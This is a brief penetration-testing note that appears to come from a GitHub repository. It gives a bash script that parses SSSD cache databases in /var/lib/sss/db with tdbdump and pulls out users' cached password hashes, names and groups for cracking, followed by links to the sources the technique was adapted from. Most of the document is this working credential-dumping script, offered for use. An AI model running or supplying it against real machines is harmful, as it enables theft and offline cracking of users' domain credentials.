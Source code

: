 ## Obtain Hash from Cached file and crack
1. Discover cached file in /var/lib/sss/db
2. Extract hash from it
```
#!/bin/bash

database="<path to local ldb file>"

for users in `tdbdump $database | grep cachedPassword | cut -d "=" -f 3 | cut -d "," -f 1`
do
	name=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 7 | cut -d "," -f 1`
	group=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 13 | cut -d "," -f 1`
	hash="`tdbdump $database | grep cachedPassword | cut -f 2-4 -d '$' |cut -f 1 -d '\\' |sed 's/^/$/g'`"
	echo "$users : $group : $name : $hash"
done
```
Note: It's likely a metasploit module handles this just ran out of time on the box I was messing with to test it

## Resources
https://forums.fedoraforum.org/showthread.php?258958-sssd-cache ***Used as the base cached file bash script (sgallah comment)
https://i.blackhat.com/eu-18/Wed-Dec-5/eu-18-Wadhwa-Brown-Where-2-Worlds-Collide-Bringing-Mimikatz-et-al-to-UNIX.pdf ***slide 37 for grep string on bash script

